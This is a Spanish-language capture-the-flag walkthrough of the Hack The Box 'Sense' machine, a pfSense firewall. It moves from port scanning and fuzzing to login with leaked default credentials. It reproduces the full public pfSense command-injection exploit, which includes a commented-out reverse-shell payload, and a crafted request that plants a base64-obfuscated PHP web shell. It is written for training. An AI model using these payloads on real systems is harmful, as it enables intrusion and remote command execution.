


## Información Básica

### Técnicas vistas

- Information Leakage
- PFsense - Abusing RRD Graphs (RCE) [Evasion Techniques]
- Python Exploit Development (AutoPwn) [EXTRA]

### Preparación

- eWPT
- eWPTXv2
- OSWE

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.60 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.10.60`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```
nmap -sVC -p80,443 10.10.10.60 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p80,443`          | Escanea únicamente los puertos **80 (HTTP)** y **443 (HTTPS)**.                      |
| `10.10.10.60`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

### Whatweb

Usamos el comando **whatweb** para ver más información:

```
❯ whatweb http://10.10.10.60
http://10.10.10.60 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], IP[10.10.10.60], RedirectLocation[https://10.10.10.60/], lighttpd[1.4.35]
https://10.10.10.60/ [200 OK] Cookies[PHPSESSID,cookie_test], Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], HttpOnly[PHPSESSID], IP[10.10.10.60], JQuery, PasswordField[passwordfld], Script[text/javascript], Title[Login], X-Frame-Options[SAMEORIGIN], lighttpd[1.4.35]
```

### PF Sense

Vemos que en el puerto **443** hay un panel de login:

<figure><figcaption></figcaption></figure>

He probado las credenciales por defecto de este servicio, pero sin éxito. Vamos a hacer fuzzing a ver si descubrimos algo más:

```
wfuzz -L -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ
```

| Parámetro / elemento                                                                   | Descripción                                                                              |
| -------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| `-L`                                                                                   | Sigue las redirecciones de los códigos de estado **301**                                 |
| `-c`                                                                                   | Muestra la salida en **colores** para facilitar la lectura.                              |
| `--hc=404`                                                                             | **Oculta** (Hide Code) todas las respuestas con código HTTP `404 Not Found`.             |
| `-t 200`                                                                               | Usa **200 hilos** (threads) en paralelo para acelerar el fuzzing.                        |
| `-w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt` | **Wordlist** que contiene los nombres de directorios/archivos que se probarán.           |
| `https://10.10.10.60/FUZZ`                                                             | **Objetivo** y **token `FUZZ`**: `FUZZ` será sustituido por cada entrada de la wordlist. |

```
❯ wfuzz -L -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.60/FUZZ
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000003597:   200        228 L    851 W      7492 Ch     "tree"                                                                                                                
000008057:   200        173 L    404 W      6113 Ch     "installer"
```

No parece haber nada interesante la verdad, podemos probar a hacer fuzzing a la extensión .txt a ver si encontramos algo más:

```
❯ wfuzz -L -c --hc=404 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.60/FUZZ.txt
```

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.60/FUZZ.txt
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000001268:   200        9 L      40 W       271 Ch      "changelog"                                                                                                           
000120222:   200        6 L      12 W       106 Ch      "system-users"   
```

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Sabiendo esto podríamos probar a loguearnos con ese usuario y las credenciales **pfsense** por ejemplo:

<figure><figcaption></figcaption></figure>

Buscando en **searchsploit**, encontramos un exploit para esta versión:

```
❯ searchsploit pfsense 2.1.3
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
```

Si vemos un poco el contenido del exploit:

```python title="43560.py"
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
# command = """
# python -c 'import socket,subprocess,os;
# s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
# s.connect(("%s",%s));
# os.dup2(s.fileno(),0);
# os.dup2(s.fileno(),1);
# os.dup2(s.fileno(),2);
# p=subprocess.call(["/bin/sh","-i"]);'
# """ % (lhost, lport)

command = f"ping -c 4 {lhost}"

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers, verify=False)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```

Si seguimos los pasos para usar el exploit, por lo menos a mi a día de hoy no funciona, si también es tu paso, sigue antento. Si vemos que es exactamente lo que hace el exploit, es loguearse e inyectar comandos en la ruta `/status_rrd_graph_img.php`. 
Usando **Burpsuite** vamos a interceptar la solicitud a esa ruta y mandarla al repeater para jugar con ella:



Usaremos el siguiente código para hacer la solicitud:

```
GET /status_rrd_graph_img.php?database=queues;cd+..;cd+..;cd+..;cd+usr;cd+local;cd+www;echo+"%3C%3Fphp+eval%28base64_decode%28%27ZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsg%27%29%29%3B%3F%3E">shell.php HTTP/1.1
```

Resumidamente lo que hacemos es ponernos en la ruta raíz de la web, y ahí crear un archivo `shell.php` que ejecutará los comandos que le pasemos al parámetro `cmd` de la siguiente manera:



De esa manera podremos hacer un `cat /root/root.txt` para obtener la `root flag`. Preferiblemente nos deberíamos enviar una **reverse shell**, pero ya bastante me he pegado con la máquina.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/111)

---